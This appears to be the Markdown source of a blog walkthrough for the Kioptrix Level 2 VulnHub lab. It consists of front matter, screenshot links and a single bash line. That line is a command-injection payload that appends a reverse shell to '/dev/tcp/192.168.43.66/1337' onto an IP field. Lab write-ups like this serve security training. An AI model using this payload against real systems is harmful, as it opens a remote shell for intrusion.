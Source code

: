 ```yaml
---
layout: post
title:  "Kioptrix_Lv2"
description: walkthrough
category: vulnhub
---
```

# Kioptrix_Lv2



![image-20200614202318955]({{ site.url }}/assets/Kioptnix_Lv2.assets/image-20200614202318955.png)



![image-20200614202646066]({{ site.url }}/assets/Kioptnix_Lv2.assets/image-20200614202646066.png)







```bash
127.0.0.1;bash -i >& /dev/tcp/192.168.43.66/1337 0>&1
```

![image-20200614205929661]({{ site.url }}/assets/Kioptnix_Lv2.assets/image-20200614205929661.png)

![image-20200614211009788]({{ site.url }}/assets/Kioptnix_Lv2.assets/image-20200614211009788.png)

![image-20200614210520008]({{ site.url }}/assets/Kioptnix_Lv2.assets/image-20200614210520008.png)

![image-20200614211309399]({{ site.url }}/assets/Kioptnix_Lv2.assets/image-20200614211309399.png)

![image-20200614211354567]({{ site.url }}/assets/Kioptnix_Lv2.assets/image-20200614211354567.png)

